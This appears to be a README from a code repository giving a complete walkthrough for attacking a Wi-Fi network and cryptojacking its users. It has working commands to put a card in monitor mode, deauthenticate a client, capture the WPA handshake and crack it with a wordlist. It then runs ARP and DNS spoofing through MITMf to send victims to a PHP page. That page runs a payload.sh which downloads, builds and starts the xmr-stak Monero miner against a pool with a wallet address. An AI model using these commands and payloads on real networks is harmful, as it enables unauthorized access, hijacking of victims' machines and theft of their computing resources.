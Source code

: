 # Gaining access to WPA/WPA2 with short/easy password and inject mining script
## Part 1. Gaining access to WIFI:
1. Install kali
2. Buy and hook a NIC (I used alfa awus036neh) that can use monitor mode to VM (assuming your interface name is wlan0)
``` 
ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
OR
airmon-ng start wlan0
```
3. Sniff the environment for victim WIFI and capture bssid of target WIFI (Assuming target bssid is BSSID channel C)
```
airodump-ng wlan0
```
4. Sniff the MAC address of clients connected to it (Assuming target mac is MAC) 
```
airodump-ng --bssid BSSID --channel C --write output wlan0 
```
5. Get the handshake traffic. WPA/WPA2 is more secure than WEP so need to capture WPA/WPA2 handshake traffic since it contains Message Integrity Code (MIC) sent from client during handshake. To get the handshake traffic, use deauthentication attack to kick a currently connected client offline and capture it’s traffic when it reconnects.
```
aireplay --deauth 0 -a BSSID -c MAC wlan0
```
6. Get a wordlist. Two approaches for this part. (Assuming wordlist file is wl.txt)
   1. Downloaded wordlists from https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length 
   2. Generated my custom wordlist. Since when I am attacking my own wifi, I have some information about the password pattern and it makes the process easier. In real world this process is done by social engineering.
7. Compare the captured MIC with locally generated MIC from password from wordlist to find the correct password. 
```
aircrack-ng output-01.cap -w wl.txt
```
## Part 2. Injecting malicious script to victim machine.
The general idea is to use MITM attack and do DNS spoofing. When the victim visites google.com, I will redirect him to php file under my server and execute the payload
1. Install MITMf
```
cd ~;git clone https://github.com/byt3bl33d3r/MITMf; cd MITMf/;git submodule init && git submodule update --recursive
```
2. Change the /etc/mitmf/mitmf.conf file, add the following line below the IPv4 address record line
```
*.illinois.edu=LOCALHOST_IP_IN_THE_TARGET_NETWORK
www.illinois.edu=LOCALHOST_IP_IN_THE_TARGET_NETWORK
illinois.edu=LOCALHOST_IP_IN_THE_TARGET_NETWORK
```
3. Create the php file, Code I used is 
```
<?php
$result = shell_exec('/var/www/html/payload.sh');
echo $result;
?>
<a href="https://www.google.com">Continue to Google</a>
```
3.1 Make sure index.php has highest priority in apache2 (over index.html)
4. Code i wrote for payload.sh is 
```
#!/bin/bash
(sudo su;
echo -ne "\n" | sudo add-apt-repository ppa:ubuntu-toolchain-r/test;
sudo apt update;
echo -ne "Y\n" | sudo apt install gcc-5 g++-5 make;
sudo update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-5 1 --slave /usr/bin/g++ g++ /usr/bin/g++-5;
curl -L http://www.cmake.org/files/v3.4/cmake-3.4.1.tar.gz | tar -xvzf - -C /tmp/;
cd /tmp/cmake-3.4.1/ && ./configure && make && sudo make install && cd -;
sudo update-alternatives --install /usr/bin/cmake cmake /usr/local/bin/cmake 1 --force;
echo -ne 'y\n' | sudo apt install libmicrohttpd-dev libssl-dev libhwloc-dev;
git clone https://github.com/fireice-uk/xmr-stak.git;
mkdir xmr-stak/build; cd xmr-stak/build;
cmake .. -DCUDA_ENABLE=OFF -DOpenCL_ENABLE=OFF;
make install;cd bin;
echo -ne "n\n0\nmonero\npool.supportxmr.com:3333\n42AxakojAJUjjYPJbx7Jd5gD2SQHMF8yu4DyHh5GckqcWVmw4e3GPchJ35UR9XQzoCSaFbwBU2JQP993HyE6QDFtC4UdNKr\n\nN\nN\nN\n" | ./xmr-stak)&
echo "your network is being controlled, click here to "
```
5. find the target IP and gateway IP
```
netdiscover -i wlan0 192.168.1.1/24
```
5. run dns spoofing on kali and all done!
```
cd ~/MITMf; python mitmf.py --arp --spoof -i wlan0 --target TARGET_IP --gateway GATEWAY_IP --dns
```
I tested under my home network on my linux laptop, it is working.
